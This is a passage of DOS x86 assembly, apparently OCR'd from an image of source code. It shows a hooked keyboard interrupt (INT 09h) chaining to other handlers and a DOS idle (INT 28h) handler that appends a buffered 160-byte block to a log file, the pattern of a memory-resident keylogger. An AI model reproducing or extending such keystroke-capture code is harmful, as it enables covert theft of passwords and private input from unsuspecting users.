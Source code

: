 ```
		jb second
		pop	ds
		pop	es
		popa
		popf
		jmp	dword ptr cs:[old_09_offset]	;Jump to old int09 handler
            
second:		pop	ds
		pop	es
		popa
		popf
		jmp	dword ptr cs:[hv_offset]        ;Jump to hv21.exe handler


old_09_offset  dw ?
old_09_segment dw ?


;DOS IDLE INTERRUPT
new_28h:
		pushf                         
		pusha
		push  	es
		push  	ds
		push  	cs
		pop   	ds

		cmp   	must_write, 1
		jne   	call_old_28  
           
		cmp   	bufptr, 160
		jb    	call_old_28             
 
		mov   	ax, 3d01h
		lea   	dx, logfile             
		int   	21h
                     
		jc    	call_old_28             
		mov   	handle, ax
		mov   	bx, ax                  
		mov   	ax, 4202h
		xor   	cx, cx
		xor   	dx, dx
		int   	21h
                     
		jc    	call_old_28
             
		mov   	ah, 40h
		mov   	bx, handle
		mov   	cx, bufptr
		lea   	dx, buf
		int   	21h                     
		jc    	call_old_28             

		mov   	ah, 3Eh
		mov   	bx, handle
		int   	21h                     
		jc    	call_old_28
 
		mov   	must_write, 0
		mov   	bufptr, 0

call_old_28:
```